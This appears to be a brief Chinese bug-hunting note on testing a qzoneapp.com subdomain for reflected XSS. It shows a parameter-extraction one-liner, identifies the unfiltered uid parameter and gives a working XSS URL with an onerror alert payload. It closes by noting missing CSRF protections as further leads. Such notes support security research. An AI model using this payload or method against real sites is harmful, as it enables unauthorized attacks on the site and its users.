 https://app12303.qzone.qzoneapp.com/?a=sxhgu&api=yb1ji&callback=ov774&cat=zzax1&from=cl9h8&key=b3906&keyword=fhycs&l=k77qm&mod=fbvf0&name=b0snu&p=j8d8t&page=mvamg&q=a27dr&query=hfvl3&s=rwej0&search=l53ze&token=t63tw&type=upbuz&uid=user_id&unsubscribe_token=g3ak4
批量测参数
cat garden.txt |unfurl keys |sort -u |tee params.txt提取参数，不过就一条url其实大可不必
![[Pasted image 20240919163003.png]]
然后脚本生成payload，一般来说批量域名url才用
![[Pasted image 20240919163134.png]]![[Pasted image 20240919163143.png]]
找到反射点x19，是uid
![[Pasted image 20240919163313.png]]
第二个地方
![[Pasted image 20240919163351.png]]
啥也没过滤
https://app12303.qzone.qzoneapp.com/?a=sxhgu&api=yb1ji&callback=ov774&cat=zzax1&from=cl9h8&key=b3906&keyword=fhycs&l=k77qm&mod=fbvf0&name=b0snu&p=j8d8t&page=mvamg&q=a27dr&query=hfvl3&s=rwej0&search=l53ze&token=t63tw&type=upbuz&uid=%3Cimg%20src=1%20onerror=alert()%3E&unsubscribe_token=g3ak4
还发现删除referer，正常返回，而且没有设置csrftoken，cookie也没有samesite，可以找找csrf，
